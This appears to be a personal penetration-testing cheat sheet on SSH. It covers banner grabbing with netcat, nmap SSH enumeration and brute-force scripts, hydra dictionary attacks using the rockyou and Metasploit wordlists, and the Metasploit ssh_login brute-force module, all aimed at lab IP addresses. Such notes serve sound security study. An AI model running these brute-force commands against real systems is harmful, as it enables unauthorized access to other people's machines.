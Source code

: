 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. netcat
	2. [nmap](#nmap)
	3. [hydra](#hydra)
	4. [msfconsole](#msfconsole)

---

# Overview
SSH - Secure Shell

Used to connect to securely connect to remote machines.

## #Ports
- 22 : main port

## Related Services
- vFTP

## Usage
`ssh -p 22 user@192.168.4.3`

---

# #Tools
## netcat
`nc 192.168.13.3 22` 
- grabs banner

---

## #nmap
- --script
	- ssh2-enum-algos
		- shows key algorithms
	- ssh-hostkey 
		- --script-args ssh_hostkey=full
	- ssh-auth-methods
		- can check if user has no password set
		- --script-args="ssh.user=admin"
	- ssh-brute --script-args userdb=/userlist
		- args : userdb, passdb, timeout
		- has its own wordlist
	- ssh-run 
		- `--script-args"username=student,password="",cmd=ls"`

---

## #hydra
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
192.168.7.3 -t 4 ssh 
```

---

## #msfconsole
- use auxiliary/scanner/ssh/ssh_login
	- options
	- set rhosts 192.26.34.2
	- set userpass_file /usr/share/wordlists/metaslpoit/root_userpass.txt
	- set STOP_ON_SUCCESS true
	- set verbose true
	- run

### Userful Modules
- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login
